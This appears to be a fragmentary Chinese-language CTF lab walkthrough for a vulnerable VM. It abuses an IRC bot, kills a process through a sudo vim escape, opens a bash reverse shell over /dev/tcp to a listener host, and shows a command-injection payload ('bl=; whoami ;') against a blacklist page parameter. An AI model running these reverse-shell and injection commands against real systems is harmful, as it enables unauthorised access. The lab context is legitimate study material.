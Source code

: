 等待几秒钟就登录进来了~~~

/j wallabyschat
.help
.run ls
/wc
进入到模式！（技巧）

ps -aux | grep waldo （查看进程）
waldo       732  0.0  0.8 115744  8352 pts/0    Sl+  04:25   0:00 irssi

irssi进程的数量732，可以使用vim杀死该进程
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
!kill 732

/nick waldo

* waldo 已退出(Client exited)
*  您已改名为 waldo

nc -vlp 9090
.run bash -c 'bash -i >& /dev/tcp/192.168.253.166/9090 0>&1'



代码审计：
在79~81行：
alert('Your ip is ' + myIP + ', consider it blacklisted for a bit :D.');
        post('/?page=blacklist', {bl: myIP});
        pc.onicecandidate = noop;

/index.php?page=blacklist

POST请求通过bl参数容易受到RCE的攻击！！


http://192.168.253.180:60080/?page=blacklist

提示：
You are SOOOOOOOOOOO predictable dayu :D. Won't get the machine like this, I can see your every move! And your IP :D

burpsuite抓包！

bl=; whoami ;




windows安装包：
https://www.32r.com/soft/36869.html

















